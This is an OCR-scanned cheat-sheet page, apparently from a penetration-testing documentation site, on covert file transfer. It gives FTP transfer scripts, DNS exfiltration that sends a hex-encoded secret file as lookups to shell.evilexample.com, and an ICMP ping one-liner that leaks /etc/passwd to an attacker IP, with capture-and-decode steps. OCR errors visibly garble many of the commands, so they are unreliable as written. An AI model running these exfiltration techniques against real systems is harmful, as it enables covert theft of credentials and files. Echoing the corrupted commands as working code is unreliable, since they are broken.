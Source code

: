 ```yaml
---
title: Tips and Tricks
sidebar: mydoc_sidebar
permalink: tips_and_tricks.html
folder: mydoc
---
```



# Tips and tricks

## File transfer

### Transfer by ftp without direct access to shell

```text
echo open ip 21 ftp.txt
echo user ftp.txt
echo pass ftp.txt
echo bin ftp.txt
echo GET file tp.txt
echo bye ftp.txt
ftp -s:ftp.txt
```

### Transfer Dns in Linux

```text
On victim:
1. Hex encode the file to be transferred
    xxd -p secret file.hex
2. Read in each line and do a DNS lookup
    forb in 'cat fole.hex'; do dig $b.shell.evilexample.com; done

Attacker:
1. Capture DNS exfil packets
    tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
2. Cut the exfilled hex from the DNS packet
    tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
    cut -f1 -d'.' | uniq received. txt
3. Reverse the hex encoding
    xxd -r -p received~.txt kefS.pgp
```

### Execute the exfil command and transfer its information with icmp

```text
On victim (never ending 1 liner):
     stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ; done

On attacker (capture pac~ets to data.dmp and parse):
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```
